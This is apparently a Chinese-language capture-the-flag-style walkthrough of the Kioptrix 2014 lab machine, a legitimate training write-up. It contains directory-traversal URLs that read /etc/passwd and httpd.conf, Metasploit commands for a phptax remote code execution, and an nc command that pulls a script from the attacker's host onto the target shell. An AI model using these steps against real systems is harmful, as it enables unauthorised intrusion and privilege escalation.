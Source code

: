 ```yaml
---
title: Kioptrix 2014
categories:
- training
tags:
- training
---
```

# Kioptrix 2014

2:07 开始
http://192.168.67.129/

```
22/tcp   closed   ssh
80/tcp   filtered http
8080/tcp open     http-proxy
```
## web
2:28 web目录扫描，爬行

查看源码，发现一个地址pChart2.1.3/index.php

```
searchsploit pchart
searchsploit -m exploits/php/webapps/31173.txt
leafpad 311tab补全命令
```
exp提示有目录遍历漏洞和反射型xss

http://192.168.67.129/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd

查看apache配置文件
```
http://192.168.67.129/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf
```
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-09-04/10.PNG)
经过检查得知，修改user-agent头，可以访问8080端口。

http://192.168.67.129:8080/phptax/

![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-09-04/11.PNG)

找到phptax 远程代码执行，拥有exp
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-09-04/12.PNG)

```
msfconsole
search phptax
use 0
set RHOSTS 192.168.67.129
set RPORT 8080
run
```
获得一个www权限的shell

ctrl + z 退出session，记住session编号。

```
search local_exploit
use 0 
show options
set sessions 1
run
[*] 192.168.67.129 - Collecting local exploits for cmd/unix...
[*] 192.168.67.129 - 7 exploit checks are being tried...
[*] Post module execution completed
失败
```
没有python、php、wget、curl，但是有nc，gcc

---

上传检查脚本

kali: `nc -lnvp 80 < linux-exploit-suggester.sh `
shell: nc kali'sIP 80 > linux.sh
运行后还是失败，猜测只有bash才能运行linux-exploit-suggester.sh，而得到的shell类型为sh

---

searchsploit freebsd 9
上传对应的内核漏洞exp

![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-09-04/13.PNG)

4:50结束，其中神游发呆做菜聊天占了绝大部分时间ORZ

